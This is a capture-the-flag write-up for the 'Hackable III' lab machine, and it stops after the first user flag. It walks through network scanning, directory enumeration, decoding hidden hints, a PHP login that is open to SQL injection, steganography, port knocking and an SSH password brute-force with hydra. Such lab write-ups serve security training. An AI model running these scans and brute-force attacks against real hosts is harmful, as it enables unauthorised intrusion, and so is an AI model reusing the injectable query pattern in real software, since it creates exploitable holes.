








# 🔐 Hackable III Write Up

### **Description** Focus on general concepts about CTF
Difficulty: Medium

### Phase 1: Reconnaissance
Gettting the ip address of the target machine using arp-scan



> Target ip -> 192.168.100.7

### Phase 2: Network Scanning and Enumeration

```bash
                                                                                                               
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.100.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 04:16 EDT
Nmap scan report for 192.168.100.7
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.46 ((Ubuntu))
MAC Address: 08:00:27:07:12:B6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds

```
Here ssh port is in filtered state and only 80 is open, lets try to use port 80 http service in browser

I pasted the target ip in browser, but on webpage nothing interesting, now i will be usign Go Buster to get the hidden endpoints using gobuster dir method and a kali wordlist

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 192.168.100.7 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://192.168.100.7/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.100.7/js/]
/config               (Status: 301) [Size: 315] [--> http://192.168.100.7/config/]
/backup               (Status: 301) [Size: 315] [--> http://192.168.100.7/backup/]
/imagens              (Status: 301) [Size: 316] [--> http://192.168.100.7/imagens/]
/login_page           (Status: 301) [Size: 319] [--> http://192.168.100.7/login_page/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```
Lets Enumurate each endpoint we got in result

On / soource code, I got the following hint:
hint:  

"Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com" -->

Here **jubiscleudo** can be a username which we can use further

On http://192.168.100.7/css/2.txt I got 2.txt which has following content:
    -> ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....
Now this is a brainfuck encoded string, so i used [decoder](https://www.dcode.fr/brainfuck-language) to decoded the string and got the following: **4444**


/js only has a javascript file without any interesting code

/config -> http://192.168.100.7/config/1.txt I got 1.txt file and it has a base64 encoded string, **MTAwMDA=** after decoding -> **10000**

/backup

Here I got the wordlist.txt which we can use for bruteforce attack, I has around 300 words.

/imagens -> Nothing Interesting, just images
/login_page:


I got the login page and when I try the random crrdentials it takes to a php page that is login.php and I got the following source code:

```php
<?php
include('config.php');
$usuario = $_POST['user'];
$senha = $_POST['pass'];

$query = " SELECT * FROM usuarios WHERE user = '{$usuario}' and pass = '{$senha}'";  

$result = mysqli_query($conexao, $query);

$row = mysqli_num_rows($result);

#validação conta
if($row == 1) {
	$_SESSION['usuario'] = $usuario;
	header('Location: 3.jpg');
	exit();
} else {
	$_SESSION['nao_autenticado'] = true;
	header('Location: login_page/login.html');
	exit();
}
?>

```

Something sql related query is their, but I got a hint in this code, that is `header('Location: 3.jpg')`, I got confused why it is a image used in header, but its a hint

So lets try to get, the image


Here we got our image, now I will use [Steghide tool](https://www.kali.org/tools/steghide/) to get the hidden data inside the image


So it says porta:65535 which means it is a port number and other number which we got earlier are also some ports.

So after searching, I got to know about the port knocking service wherein we have to knock a sequence of port to set the port open

I used this command:
```bash
knock 192.168.100.7 10000 4444 65535
```



So here ssh port is now open, we can use hydra for bruteforce attack and wordlist we got in /backups/

```bash
hydra -l jubiscleudo -P wordlist.txt ssh://192.168.100.7
```



### Now lets login with the credentials to ssh



### User Flag one is here...

Lets Enumerate more and see for root privilege, but this user jubiscleudo does not have sudo privilege, so I checked in /home and got one more user hackable_3


